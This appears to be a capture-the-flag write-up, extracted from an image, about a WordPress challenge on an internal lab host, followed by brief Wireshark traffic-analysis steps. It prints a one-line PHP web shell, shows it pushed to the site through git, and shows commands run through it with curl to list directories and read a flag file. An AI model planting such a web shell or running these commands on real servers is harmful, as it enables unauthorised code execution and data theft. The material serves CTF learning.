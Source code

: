 I pushed `nem.txt` and now I can see it with `curl
http://wordpress.flag.net.internal/nem.txt`.

No need for a remote shell. Normal PHP web shell does the job. I used:
https://github.com/bayufedra/Tiny-PHP-Webshell

```
$ nano shell.php
# paste the code `<?=`$_GET[0]`?>`
$ git add .
$ git commit -m "sholl"
# might have to use -v here to accept the server fingerprint if this is your first interaction via SSH
$ git push origin main
```

The shell works:

```
$ curl http://wordpress.flag.net.internal/shell.php?0=ls
index.php
license.txt
readme.html
shell.php
wp-activate.php
# removed

$ curl http://wordpress.flag.net.internal/shell.php?0=ls%20../../../
bin
boot
dev
etc
flag.txt
# removed
```

What are we supposed to do here again?

```
$ curl http://wordpress.flag.net.internal/shell.php?0=cat%20../../../flag.txt
`oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT`
```

# Recover the Web Ring

## Naughty IP

1. Wireshark `statistics > conversations`.
2. Sort by `Bytes`.
3. Most talkative is `18.222.86.32`

## Credential Mining
The first attack is a brute force login. What's the first username tried?
